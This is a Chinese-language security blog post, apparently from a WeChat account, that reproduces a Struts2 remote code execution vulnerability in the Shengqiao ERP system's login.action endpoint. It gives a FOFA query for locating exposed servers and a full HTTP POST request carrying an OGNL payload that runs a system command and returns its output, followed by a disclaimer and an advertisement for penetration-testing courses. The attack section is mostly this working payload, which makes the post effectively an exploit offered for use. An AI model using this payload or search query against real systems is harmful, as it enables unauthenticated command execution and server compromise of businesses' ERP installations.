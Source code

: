 #  圣乔ERP系统 login.action Struts2远程代码执行漏洞复现   
原创 红岸基地赵小龙  暗影网安实验室   2024-11-26 09:00  
  
## 产品简介  
  
  
圣乔ERP系统是杭州圣乔科技有限公司开发的一款企业级管理软件，旨在为企业提供一套全面、集成化的管理解决方案，帮助企业实现资  
  
源的优化配置和高效利用。该系统集成了财务、人力资源、生产、销售、供应链等多个业务模块，实现了企业内外部信息的无缝连接和实  
  
时共享。适用于各种规模的企业，特别是需要实现资源优化配置、提高运营效率和管理水平的企业。它可以帮助企业解决传统管理方式中  
  
存在的信息孤岛、数据重复输入、信息传递滞后等问题，提高企业的整体竞争力  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2uqSvZE6x25icBxYJVFOCI9lDwlWBpRckT4lkZ0yxlUTib3XeuPtMmHFL5gWHDbCGsibT2ANGJPWqOCPA/640?wx_fmt=png&from=appmsg "")  
  
  
## 漏洞概述  
  
  
由于圣天ERP系统使用Struts2开发框架组件，存在历史Struts2远程代码执行漏洞，未经身份验证的远程攻击者可利用此漏洞执行任意系  
  
统命令，写入后门文件，获取服务器权限。  
## FOFA  
  
```
title="圣乔ERP系统"
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2uqSvZE6x25icBxYJVFOCI9lDMvvN1HPFqF0icsCMgZjyIwuxiafmbrvujFrpzkYaJGEQ8oBH4ANECtDg/640?wx_fmt=png&from=appmsg "")  
## 漏洞复现  
```
POST /erp/login.action HTTP/1.1
Host: 
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
 
redirect:%24%7B%23resp%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23req%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletRequest%27%29%2C%23a%3D%28new+java.lang.ProcessBuilder%28new+java.lang.String%5B%5D%7B%27whoami%27%7D%29%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23dis%3Dnew+java.io.DataInputStream%28%23b%29%2C%23buf%3Dnew+byte%5B20000%5D%2C%23dis.read%28%23buf%29%2C%23msg%3Dnew+java.lang.String%28%23buf%29%2C%23dis.close%28%29%2C%23resp.getWriter%28%29.println%28%23msg.trim%28%29%29%2C%23resp.getWriter%28%29.flush%28%29%2C%23resp.getWriter%28%29.close%28%29%7D
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2uqSvZE6x25icBxYJVFOCI9lDgicrKO9EJt7iclDxibDm4whCODpD1rad01BjBKXT0vQVWiaHe9SbbVWicAQ/640?wx_fmt=png&from=appmsg "")  
  
工具验证  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2uqSvZE6x25icBxYJVFOCI9lDQNgicqxHibKbR7RFtB7vNu8YoJxX0OWzorWzAJTM0jaZJVO0DDgx0NRg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
  
**免责声明**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
  
文章所涉及内容，仅供安全研究与教学之用，由于传播、利用本文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。  
  
  
大家对于网络安全感兴趣的话，不妨来加一下我们的老师，我们会定期在给大家分享  
**渗透****工具**和  
**实战****文****章**，还会有  
**渗透公开课**可以试听！  
  
**扫码添加，提升自己！**  
  
  
**👇👇👇**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/XvnzjMsl2uqSvZE6x25icBxYJVFOCI9lDasEWqq2rXaaHicvykJsBK94cBdfxibU6fOQ2iaTJ0IKoVMmiaFbIAjJz4A/640?wx_fmt=jpeg&from=appmsg "")  
  
后续一些打击犯罪文章会在下方公众号发布  
  
  
